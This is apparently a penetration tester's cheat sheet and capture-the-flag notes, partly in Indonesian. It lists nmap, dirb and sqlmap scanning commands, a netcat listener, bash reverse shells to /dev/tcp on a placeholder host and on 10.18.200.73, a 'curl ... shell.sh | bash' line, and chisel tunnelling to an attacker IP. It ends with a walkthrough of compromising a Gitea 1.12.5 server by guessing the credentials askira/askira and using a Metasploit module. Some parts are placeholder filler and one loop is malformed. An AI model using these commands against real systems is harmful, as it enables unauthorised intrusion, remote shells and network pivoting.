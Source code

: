 Command
# Header 1

## Header 2
- nmap -sC -sV -oN enum.nmap -p- -T4 --min-rate=1000 -v  (nmapx)
- dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o diretory.dirb (dirbx)
- sqlmap -r inject --dbs --level 4 --risk 3 --threads 10 --tamper=space2comment,between,randomcase (sqlmapx)

- nc -lvnp 9001
- python -c 'import pty;pty.spawn("/bin/bash")';
- bash -c 'bash -i >& /dev/tcp/CHANGE-THIS/9001 0>&1'
- sudo python3 -m http.server 80
- curl 127.0.0.1/shell.sh | bash
- ps -efa --forest


### Header 3
for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
for i in {1.255}; do (ping -c 1 10.1.2.${i} | grep "bytes from"&); done

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
chisel server --socks5 --reverse
./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:8000:&lt;Internal IP&gt;:80

./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:socks

Payload

```
test
asda
```

Set alias

- nmap
- buka port 3000 gitea
- coba guessing password dengan username yang ada
username: askira
password: askira
- mencari kerentanan pada layanan gitea versi 1.12.5
- menggunakan module metasploit untuk memasukan reverse shell
    - listening port 9001 pada local machine
    nc -lvnp 9001
    - memasukan code reverse shell pada target machine
    bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
    - mengambil flag user.txt
    ![Alt text](images/user.jpg)
